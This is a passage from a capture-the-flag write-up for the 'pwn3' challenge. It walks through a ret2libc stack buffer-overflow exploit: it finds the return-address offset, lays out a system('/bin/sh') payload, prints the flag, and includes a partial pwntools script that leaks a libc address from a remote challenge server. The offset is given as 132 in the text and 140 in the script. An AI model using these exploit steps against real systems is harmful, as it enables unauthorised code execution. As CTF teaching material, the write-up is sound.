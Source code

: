 ![Segfault! ](https://cdn-images-1.medium.com/max/800/1*H7Eb735ip6GklDhJHA4GGQ.png)

The program leads to a segmentation fault, let’s check the core dump generated by the program.

![saved return address overwritten by 0x41346541](https://cdn-images-1.medium.com/max/800/1*A_H6kqD71L6fpTmavtv3Hw.png)

We can see that the saved return address is overwritten by `0x41346541`. Let’s use `msf-pattern_offset.rb` to get the offset.

```
root@kali:pwn3# msf-pattern_offset -q 0x41346541  
[*] Exact match at offset 132
```

The offset is 132. We can now create our stage 2 payload with all the information.

```
payload = [132 bytes buffer] + [system()] + [4 bytes garbage] + [/bin/sh address]
```

![We got a shell! ](https://cdn-images-1.medium.com/max/800/1*6C_4ndm7cOFe-3sxMAqBNA.png)

Flag: `encryptCTF{70_7h3_C3nt3R_0f_L!bC}`

Sample exploit script:

```
./exploit.py

from pwn import *

r = remote('104.154.106.182', 4567)  
#r = process('./pwn3')  
libc = ELF('./libc.so.6')

offset = 140

puts_plt = 0x8048340  
puts_got = 0x80497b0

gets_plt = 0x8048330  
gets_got = 0x80497ac  
main_plt = 0x0804847d

# Stage 1 payload  
# ------------------------

payload = ""  
payload += "A"*offset  
payload += p32(puts_plt)  
payload += p32(main_plt)  
payload += p32(puts_got)

r.recvuntil('desert:')

log.info('Payload format: [140 bytes buffer] + [puts() addr] + [main() addr] + [puts@got]')  
r.sendline(payload)  
r.recvline()

puts_leak = u32(r.recvline()[:4])  
log.info('Puts leak: {}'.format(hex(puts_leak)))

puts_offset = libc.symbols['puts']  
system_offset = libc.symbols['system']  
exit_offset = libc.symbols['exit']  
binsh_offset = next(libc.search('/bin/shx00'))

```